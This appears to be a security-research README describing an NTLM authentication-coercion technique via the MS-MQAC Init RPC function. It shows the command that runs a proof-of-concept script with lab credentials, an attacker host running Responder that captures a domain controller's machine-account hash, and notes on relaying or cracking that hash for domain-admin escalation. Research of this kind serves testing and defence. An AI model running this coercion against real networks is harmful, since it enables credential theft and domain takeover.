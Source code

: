 # MC-MQAC - Remote call to Init (opnum 7)

## Summary

+ **Protocol**: [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d)

+ **Protocol UUID**: 0fb15084-af41-11ce-bd2b-204c4f4f5020

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`Init`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/13f4d2bf-3c1d-4ef0-825a-a497df73bf5b)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol (with uuid `0fb15084-af41-11ce-bd2b-204c4f4f5020` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-MQAC`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d) and allows to call RPC functions of this protocol. We will then call the remote [`Init`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/13f4d2bf-3c1d-4ef0-825a-a497df73bf5b) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Init('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Init(
   [in, optional] VARIANT* Machine,
   [in, optional] VARIANT* Pathname,
   [in, optional] VARIANT* FormatName
 );
```

## References

+ Documentation of protocol [MC-MQAC]: Message Queuing (MSMQ): ActiveX Client Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/5ed096a9-b641-4a5a-b749-7e6937d20f4d

+ Documentation of function `Init`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-mqac/13f4d2bf-3c1d-4ef0-825a-a497df73bf5b